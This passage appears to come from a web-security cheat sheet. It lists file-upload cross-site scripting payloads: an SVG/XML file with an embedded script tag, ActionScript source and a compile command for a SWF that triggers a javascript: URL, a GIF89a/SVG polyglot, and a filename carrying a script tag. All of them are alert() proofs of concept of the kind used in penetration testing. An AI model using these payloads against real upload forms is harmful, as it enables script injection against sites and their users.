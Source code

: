
3. Upload ```.SVG, .XML, .XSD, .XMP, .XSLT, .XHTML``` Files:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   style="overflow: hidden; position: relative;"
   width="300"
   height="200">

  <image
 	x="10"
 	y="10"
 	width="276"
 	height="110"
 	xlink:href="https://google.com"
 	stroke-width="1"
 	id="image3204" />
  <rect
 	x="0"
 	y="150"
 	height="10"
 	width="300"
 	style="fill: black"/>
<script>alert()</script>
</svg>
```
4. Compile and Upload SWF file: <br>

Create an ActionScript file (.as) with the source code from below and compile it by running ```mtasc -swf asd.swf -main -header 0:0:0 test.as``` (Source: https://github.com/ncannasse/mtasc)

```
class XSS {
   	 static var app: XSS;
   	 function XSS() {
   	 var xss = "javascript:alert(\"That's a cool XSS\")";
   	 getURL(xss, "_self");
   	 }
   	 static function main(mc) {
   	 app = new XSS();
}}

```
5. Upload GIF file:
```
GIF89a/<svg/onload=alert(1)>/=alert(document.domain)//;
```

6. Upload file with XSS payload within its name
```
image.jpeg -> image'"><script>alert()</script>.jpeg
```
